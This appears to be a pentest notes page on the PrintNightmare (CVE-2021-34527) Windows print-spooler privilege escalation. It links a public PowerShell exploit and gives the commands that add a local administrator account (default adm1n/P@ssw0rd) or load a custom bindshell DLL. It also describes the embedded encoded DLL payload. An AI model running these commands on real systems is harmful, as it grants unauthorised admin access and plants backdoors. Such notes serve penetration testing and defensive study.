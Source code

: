 # Print Nightmare

{% embed url="https://github.com/JohnHammond/CVE-2021-34527" %}

Add a new user to the local administrators group by default:

```
Import-Module .\cve-2021-34527.ps1
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default

Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 
```

Supply a custom DLL payload, to do anything else you might like.

```
Import-Module .\cve-2021-34527.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

### Details

* The LPE technique does not need to work with remote RPC or SMB, as it is only working with the functions of Print Spooler.
* This script embeds a Base64-encoded GZIPped payload for a custom DLL, that is patched according to your arguments, to easily add a new user to the local administrators group.
* This script embeds methods from PowerSploit/[PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1) to reflectively access the Win32 APIs.
* This method does not loop through all printer drivers to find the appropriate DLL path -- it simply grabs the first driver and determines the appropriate path.
